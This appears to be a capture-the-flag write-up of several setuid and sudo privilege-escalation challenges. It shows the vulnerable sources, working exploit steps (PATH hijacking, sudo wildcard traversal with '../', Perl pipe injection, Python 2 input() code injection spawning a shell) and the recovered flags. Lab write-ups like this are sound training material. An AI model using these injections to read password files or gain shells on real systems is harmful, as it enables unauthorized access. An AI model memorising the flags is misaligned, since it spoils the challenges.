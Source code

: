 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```assembly
app-script-ch11@challenge02:~$ mkdir /tmp/tmp1/ ; cd /tmp/tmp1
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

# Bash - System 2
Source:

```C
#include <stdlib.h>
#include <stdio.h>
 
int main(){
	system("ls -lA /challenge/app-script/ch12/.passwd");
	return 0;
}
```
Solve 0x1:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd
app-script-ch12@challenge02:~$ cp /bin/nano /tmp/pwnd/ls
app-script-ch12@challenge02:~$ export PATH=/tmp/pwnd:$PATH
app-script-ch12@challenge02:~$ ./ch12
```
Solve 0x2:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd1 ; cd /tmp/pwnd1
app-script-ch12@challenge02:/tmp/pwnd1$ nano pwn.c
app-script-ch12@challenge02:/tmp/pwnd1$ g++ pwn.c -o pwn
app-script-ch12@challenge02:/tmp/pwnd1$ export PATH=/tmp/pwnd1:$PATH
app-script-ch12@challenge02:/tmp/pwnd1$ mv pwn ls
app-script-ch12@challenge02:/tmp/pwnd1$ ~/ch12 
8a95eDS/*e_T#
```
Pwn.c code :
```C
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char  *argv[]){
       system("cat /challenge/app-script/ch12/.passwd");
       return 0;
}
```
Flag is : ```8a95eDS/*e_T#```

# Perl - Command injection
Source :

```perl
#!/usr/bin/perl

delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';

use strict;
use warnings;

main();

sub main {
    my ($file, $line) = @_;

    menu();
    prompt();

    while((my $file = <STDIN>)) {
        chomp $file;

        process_file($file);

        prompt();
    }
}

sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}

sub check_read_access {
    my $f = shift;

    if(-f $f) {
        my $filemode = (stat($f))[2];

        return ($filemode & 4);
    }

    return 0;
}

sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);

    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }


    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }

    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";

    close F;
}
```
Solve:
```assembly
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
```
Flag is : ```PerlCanDoBetterThanYouThink```

Source :
```python
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```
Now we know that the flag located in .passwd is just a set of numbers and if your input matched this numbers it will print ```Well done ! You can validate with this password !``` so i first tryed to buruteforce
```bash
#!/bin/bash

i=0;
while true; do
   echo 'echo '"$i"' | /challenge/app-script/ch6/setuid-wrapper'
   if [[ $(echo $i | /challenge/app-script/ch6/setuid-wrapper) =~ "Well done " ]] ; then
       echo "$i is the password";
        break;
   fi
   let i++
done

```
but it seemed like it will take forever so it exploited it.
```assembly
app-script-ch6@challenge02:~$ ./setuid-wrapper 
Please enter password : __import__("os").execl("/bin/sh","sh")
$ cat .passwd
13373439872909134298363103573901
$ 
```
Flag is ```13373439872909134298363103573901```

